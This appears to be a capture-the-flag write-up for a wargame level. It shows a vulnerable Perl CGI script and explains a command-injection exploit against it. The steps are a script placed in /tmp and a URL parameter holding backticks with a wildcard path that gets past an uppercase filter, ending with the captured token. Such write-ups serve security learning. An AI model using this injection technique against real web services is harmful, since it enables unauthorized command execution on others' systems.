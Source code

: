 ## Level12

We found a perl script:

```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Its a script runing on localhost on port 4646 that takes 2 args but we will focus on the first one because it got a potentiel of command injection in this line :

```@output = `egrep "^$xx" /tmp/xd 2>&1`;```


But first we need to deal with the 2 regex lines:

```
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
```
  
 The first one change the alphabets to uppercase
 The second take string after the  last whitespace
 So we can't inject getflag directly we gonna put the command in a file
 So first we need to create a file in tmp we can call it FILE
 cat /tmp/FILE
 
 ```
    #!/bin/bash
    
    getflag > /tmp/token
  ```
 
 `chmod 777 /tmp/FILE` so another user can access it
 we still have one problem its that our input will become like this \`/TMP/FILE/\` and its not a valid path so we will change it to \`/*/FILE/\`
 we go to browser and go to:
 
 ```
 http://machineip:4646/?x="`/*/FILE`"
 ```
 
 comeback to terminal and cat /tmp/token :
 
 ```
 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
 ```
 
